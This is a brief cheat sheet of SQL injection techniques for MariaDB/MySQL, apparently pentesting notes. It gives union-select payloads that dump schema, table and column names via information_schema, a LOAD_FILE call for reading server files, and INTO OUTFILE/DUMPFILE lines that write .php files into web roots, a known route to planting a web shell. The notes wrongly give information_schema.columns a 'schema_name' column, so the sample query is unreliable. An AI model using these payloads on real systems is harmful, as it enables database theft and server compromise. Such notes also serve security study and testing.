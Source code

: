 # mariadb mysql
## SQLi
### concat multiple values into one field rows
`group_concat( query )`
`... union select 1,2,group_concat(schema_name) from information_schema.schemata`

### union injection
### information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`

## files
### check permissions
`show grants;`

### read
`LOAD_FILE('')`

### write
at the end of the query
`INTO OUTFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO OUTFILE '/var/www/html/test.php'`
`INTO DUMPFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO DUMPFILE '/var/www/html/test.php'`
